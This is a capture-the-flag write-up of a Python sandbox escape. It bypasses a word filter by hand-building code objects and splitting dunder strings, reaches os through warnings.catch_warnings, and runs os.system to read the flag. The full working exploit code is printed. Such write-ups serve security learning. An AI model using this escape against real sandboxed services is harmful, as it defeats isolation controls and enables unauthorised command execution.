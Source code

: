*Written by nthistle*
#### Problem Statement

If you stare into the abyss, the abyss stares back.

`nc problem1.tjctf.org 8006`

#### Observations

The first observation is that this is a Python environment. 

However, further experimentation reveals that all our errors are eaten up with a cute message.
```
>>> blahblop
The Abyss consumed your error.
```

Furthermore, some words seem to be banned. 
```
>>> ().__class__
Sorry, '__class__' is not allowed.
>>> lol__class__lol
Sorry, '__class__' is not allowed.
>>> __clas__
Sorry, '__' is not allowed.
```

It seems there is a word filter. We can't have certain strings in our code. In particular, "\_\_" is banned.

We would like to use solution #4 from [here](https://github.com/lucyoa/ctf-wiki/tree/master/pwn/python-sandbox). 
```
classes = {}.__class__.__base__.__subclasses__()
b = classes[49]()._module.__builtins__
m = b['__import__']('os')
m.system("test")
```

Unfortunately, we can't type out "\_\_class__". "exec" and "eval" are also banned. 

#### Solution
Googling for "CTF Python Jailbreak", we eventually come accross this [article](https://blog.delroth.net/2013/03/escaping-a-python-sandbox-ndh-2013-quals-writeup/).

>Enter code objects. Python functions are actually objects which are made of a code object and a capture of their global variables. A code object contains the bytecode of that function, as well as the constant objects it refers to, some strings and names, and other metadata (number of arguments, number of locals, stack size, mapping from bytecode to line number). You can get the code object of a function using myfunc.func_code. This is forbidden in the restricted mode of the Python interpreter, so we can’t see the code of the auth function. However, we can craft our own functions like we crafted our own types!

```
ftype = type(lambda: None)
ctype = type((lambda: None).func_code)
f = ftype(ctype(1, 1, 1, 67, '|\x00\x00GHd\x00\x00S', (None,),
                (), ('s',), 'stdin', 'f', 1, ''), {})
f(42)
# Outputs 42
```

This lets us bypass the word filter!

In particular, "ctype" lets us assemble arbitary functions. 

This [answer](https://stackoverflow.com/a/6613169/10178580) from StackOverflow gives us the arguments for the function ctype. 

This function prints out the arguments we need. 
```
#a is a function
def bash(a):
  print(a.func_code.co_argcount)
  print(a.func_code.co_nlocals)
  print(a.func_code.co_stacksize)
  print(a.func_code.co_flags)
  print(repr(a.func_code.co_code))
  print(repr(a.func_code.co_consts))
  print(repr(a.func_code.co_names))
  print(repr(a.func_code.co_varnames))
  print(repr(a.func_code.co_freevars))
  print(repr(a.func_code.co_cellvars))
```

With our function 
```
get_classes():
  return {}.__class__.__base__.__subclasses__()
```
we get 
<pre>
0 
0
1
67
'i\x00\x00j\x00\x00j\x01\x00j\x02\x00\x83\x00\x00S'
(None,)
('__class__', '__base__', '__subclasses__')
()
()
()
</pre>

Plugging these into the previous example, we get
```
get_classes = ftype(ctype(0, 1, 2, 67, 'i\x00\x00j\x00\x00j\x01\x00j\x02\x00\x83\x00\x00S', (None,),("_"+"_class_"+"_","_"+"_base_"+"_","_"+"_subclasses_"+"_"), (), 'stdin', 'f', 1, ''), {})
```

Running this on the interpreter, we see that it works. 

We want `warnings.catch_warnings`, and a little bit of manual searching gives us index 59.
```
warnings = get_classes()[59]()
```

Next, we need to get the property `_module` of warnings. We use the same trick as before. 

```
getModule = ftype(ctype(1, 1, 1, 67, '|\x00\x00j\x00\x00S', (None,),("_"+"module",), ("warnings",), 'stdin', 'f', 1, ''), {})
```

Now,
`module = getModule(warnings)`

<pre>
>>> dir(module)
['WarningMessage', '_OptionError', '__all__', '__builtins__', '__doc__', '__file__', '__name__', '__package__', '_getaction', '_getcategory', '_processoptions', '_setoption', '_show_warning', 'catch_warnings', 'default_action', 'defaultaction', 'filters', 'filterwarnings', 'formatwarning', 'linecache', 'once_registry', 'onceregistry', 'resetwarnings', 'showwarning', 'simplefilter', 'sys', 'types', 'warn', 'warn_explicit', 'warnpy3k']
</pre>

We have access to sys! 

Now we can get access to os.
`os = module.sys.modules["os"]`

Running `os.system("ls")` and then `os.system("cat flag.txt")` finishes the problem.


#### Code
```
ftype = type(lambda: None)
ctype = type((lambda: None).func_code)
get_classes = ftype(ctype(0, 1, 2, 67, 'i\x00\x00j\x00\x00j\x01\x00j\x02\x00\x83\x00\x00S', (None,),("_"+"_class_"+"_","_"+"_base_"+"_","_"+"_subclasses_"+"_"), (), 'stdin', 'f', 1, ''), {})
warnings = get_classes()[59]()
getModule = ftype(ctype(1, 1, 1, 67, '|\x00\x00j\x00\x00S', (None,),("_"+"module",), ("warnings",), 'stdin', 'f', 1, ''), {})
module = getModule(warnings)
os = module.sys.modules["os"]
os.system("cat flag.txt")
```
